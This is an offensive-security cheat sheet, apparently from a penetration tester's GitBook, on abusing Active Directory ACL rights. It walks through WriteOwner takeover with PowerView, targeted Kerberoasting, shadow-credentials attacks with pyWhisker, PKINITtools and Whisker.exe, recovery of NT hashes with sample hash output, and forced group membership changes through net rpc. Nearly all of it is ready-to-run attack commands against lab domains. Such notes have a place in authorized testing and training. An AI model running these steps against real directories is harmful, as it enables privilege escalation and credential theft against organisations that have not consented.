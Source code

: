 # Abusing Active Directory ACLs/ACEs

## "WriteOwner" abuse

We have two account "Ryan" and "CA\_SVC".

<figure><img src="../../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

As you can see, ryan has WriteOwner privilege on "sv\_svc" AD account.

### **Set Owner with All Rights** <a href="#dc7f" id="dc7f"></a>

```powershell
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'ca_svc' -OwnerIdentity 'ryan'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "ca_svc" -PrincipalIdentity "ryan"
```

Check with this command:

{% code title="" overflow="wrap" %}
```powershell
# check SID of ryan
Get-DomainUser | Where-Object { $_.Name -like "*ryan*" } | Select-Object Name, Objectsid
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

{% code title="" overflow="wrap" %}
```powershell
# check if ryan's SID there is in SecurityIdentifier field of ca_svc account
Get-DomainObjectAcl -Identity 'ca_svc' | Where-Object { $_.ActiveDirectoryRights -eq 'GenericAll' }
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

### Reset Password

{% content-ref url="forcechangepassword-rights.md" %}
[forcechangepassword-rights.md](forcechangepassword-rights.md)
{% endcontent-ref %}



### Reources

{% embed url="https://medium.com/@aslam.mahimkar/exploiting-ad-dacl-writeowner-misconfiguration-ca61fb2fcee1" %}

## "GenericWrite" over a user abuse.

The GenericWrite privilege access grants you the ability to write to any non-protected attribute on the target object, including "members" for a gourp, and "serviceprincipalnames" for a user.

This means that that it is possible to perform a `kerberstoasting attack` or `Shadow Credentials Attack` from the user with this priv to the writable user.

<figure><img src="../../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

### Kerberoast attack

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast
```
{% endcode %}

{% code title="Usage" overflow="wrap" %}
```bash
./targetedKerberoast.py --dc-ip '192.168.1.7' -v -d 'ignite.local' -u 'radha' -p 'Password@1'
```
{% endcode %}

#### Clock skew too great error

The `KRB_AP_ERR_SKEW(Clock skew too great)` error indicates that we have to syncronize the clock of out session with the clock of the AD.

To do this we can use the `ntpdate`tool:

```bash
sudo apt install ntpsec-ntpdate
```

<pre class="language-bash"><code class="lang-bash"><strong>sudo su
</strong><strong>
</strong><strong>timedatectl set-ntp off
</strong>
ntpdate 10.10.11.42
</code></pre>

{% hint style="danger" %}
If we are in kali linux we also disable the auto ntp-sync with this command:

`timedatectl set-ntp 0`
{% endhint %}

### Shadow Credentials Attack (From Kali)

To abuse this privilege, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/pywhisker
```
{% endcode %}

{% code title="" overflow="wrap" %}
```bash
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Now we have obtained the password for pfx file and the pfx file, using the `gettgtpkinit.py` tool to extract TGT ticket.

{% code title="Installation" %}
```bash
git clone https://github.com/dirkjanm/PKINITtools
```
{% endcode %}

{% code overflow="wrap" %}
```bash
cd PKINITtools

python gettgtpkinit.py -cert-pfx file.pfx -pfx-pass password -cert-pem file_cert.pem -key-pem file_priv.pem -dc-ip 10.10.11.42 DOMAIN/USER USER.ccache

# output
2025-05-29 00:01:47,532 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-29 00:01:47,561 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-29 00:01:57,426 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-29 00:01:57,426 minikerberos INFO     f83293eb50d924cd718551e3b431c5b2a9a894bab853257d56bb255f84e13721 # <---------
INFO:minikerberos:f83293eb50d924cd718551e3b431c5b2a9a894bab853257d56bb255f84e13721
2025-05-29 00:01:57,428 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```
{% endcode %}

Set the **KRB5CCNAME** environment variable to point to the previously generated **`.ccache`** file

```bash
export KRB5CCNAME=/PATH/TO/PKINITtools/USER.ccache
```

Use `getnthash.py` tool to extract the hash from TGT ticket

{% code overflow="wrap" %}
```bash
python getnthash.py -key KEY_IN_THE_ABOVE_OUTPUT DOMAIN/USER

# output
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd697600edf6b3a7af4875767
```
{% endcode %}



### Shadow Credentials Attack (From powershell)

copy this file on the target machine:

```bash
locate Whisker.exe

/opt/SharpCollection/NetFramework_4.7_Any/Whisker.exe
/opt/SharpCollection/NetFramework_4.7_x64/Whisker.exe
/opt/SharpCollection/NetFramework_4.7_x86/Whisker.exe
```

With a evil-winrm session we can use "upload" function

```
upload Whisker.exe
```

Execute the program

```
Whisker.exe list /target:TARGET_USER
```

```
Whisker.exe add /target:TARGET_USER
```

<figure><img src="../../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Now upload the `Rubeus.exe` program and execute the command from Whisker output.



## "GenericWrite" over a group abuse.

GenericWrite to a group allows you to directly modify group membership of the group.

<figure><img src="../../../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

### Add user to the other group

The command is based on the above example, and it add a user into a other group.

{% code overflow="wrap" %}
```bash
net rpc group addmem "DEVELOPERS" levi.james -U puppy.htb/levi.james%'Password@1' -S DC_IP
```
{% endcode %}

After running the command, run the following command to view the group members and check whether the previous command worked.

{% code overflow="wrap" %}
```bash
net rpc group members "DEVELOPERS" -U puppy.htb/levi.james%'Passwprd@1' -S DC_IP
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>



### Resources

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials" %}
